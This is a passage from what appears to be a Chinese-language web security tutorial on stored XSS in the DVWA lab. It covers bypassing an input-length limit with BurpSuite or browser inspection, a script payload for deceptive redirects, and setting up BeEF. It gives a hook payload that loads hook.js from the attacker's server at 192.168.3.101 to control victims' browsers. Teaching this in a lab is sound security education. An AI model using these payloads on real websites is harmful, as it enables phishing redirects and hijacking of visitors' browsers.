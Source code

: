 第一种，我们先随意输入符合长度要求的Message内容，之后用BurpSuite去进行拦截修改，将Message的内容修改为我们想要设置的恶意负载，这样就可以绕过输入长度限制。

第二种，我们可以去修改页面的限制代码，首先在Message输入框内右键，选择检查，这样关于它的代码就会高亮显示。

![图片](https://static001.geekbang.org/resource/image/14/d0/1430dd813988235a286733b058422ed0.png?wh=784x220)

在图中，我们可以看到它限制了最多输入50个字符，我们可以将这个数字改为1000或者更大，来满足我们对负载长度的要求。修改过后，我们就可以任意输入想要的负载啦。这里也是在前端进行的修改。

![图片](https://static001.geekbang.org/resource/image/60/81/605dcc52caa1ca45a6651cc185470081.png?wh=1269x686)

下面，让我们继续学习XSS的危害类型，看看如何用XSS去实现欺骗跳转。

### 欺骗跳转

有的网页希望增加访问量，或者吸引用户访问，那么就可能会用XSS攻击来实现这一目的。下面我们继续以DVWA靶场中的存储型XSS作为示例。

为了实现欺骗跳转，我们需要将负载设置为：

```javascript
<script>window.location.href=“跳转的目的地址”;</script>
```

这段负载也是JavaScript代码，它可以使得当前页面跳转到设置的目的地址，这就是跳转产生的原因。注意，这里同样是需要绕过输入长度的限制的哦。

这样，当我们访问被攻击的页面时，页面会自动跳转到攻击者设置的地址中，如果攻击者将这个地址伪造为被攻击的页面，那么很容易迷惑访问用户，使得用户认为这就是被攻击的页面，**但事实上，用户已经落入到攻击者的圈套之中了。**

这就是用XSS实现欺骗跳转的方法。到这里，你已经学完了常见的XSS攻击利用方法，事实上，这就是一个任意JavaScript命令执行漏洞，我们只要更换不同的JavaScript语句，就可以实现这些攻击行为。

上述内容都是我们对XSS攻击的手动利用，接下来，让我们来学习一款XSS攻击自动利用神器——BeEF。

## BeEF的使用

我们都知道Beef是牛肉的意思，这款名为BeEF的软件也是非常牛的。**我们利用它可以进行各种各样的攻击操作，并且不需要我们手动进行一些负载的设计**，下面让我们一起来学习它吧。

首先我们要来安装这款软件，我们可以在kali虚拟机中使用 `sudo apt install beef-xss` 进行BeEF的安装，如果失败，那么我们运行 `sudo apt-get update` 进行apt的更新，然后重新安装即可。

安装完成之后，我们就可以用命令 `sudo beef-xss` 来打开这个软件，可以看到它会自动弹出一个Web页面，这就是这个软件的用户界面。

![图片](https://static001.geekbang.org/resource/image/24/f6/249dcae60e8805ba367d3a42674953f6.png?wh=1654x924)

我们选择DVWA的存储型XSS攻击来做测试，让你可以更好地理解这款工具。

那么在利用BeEF前，我们首先需要进行XSS攻击。

![图片](https://static001.geekbang.org/resource/image/49/0c/4925d7a0991769d15fef32429f627d0c.png?wh=1886x676)

和之前我们手动攻击一样，需要在Message框内输入恶意负载，由于我们BeEF工具所在的服务器地址为192.168.3.101，所以我们将负载设置为：

```javascript
<script src="http://192.168.3.101:3000/hook.js"></script>
```

这样，每当这个页面被访问时，都会触发我们注入的JavaScript代码，使得页面向我们的恶意服务器请求hook.js文件，其中你可以简单认为hook.js文件是BeEF的一个接口，之后我们在BeEF调用的命令都是通过这个接口来实现的。

完成了接口的设置之后，我们在BeEF的页面，可以看到BeEF中的Hooked Browsers一栏已经显示出被攻击的目标。
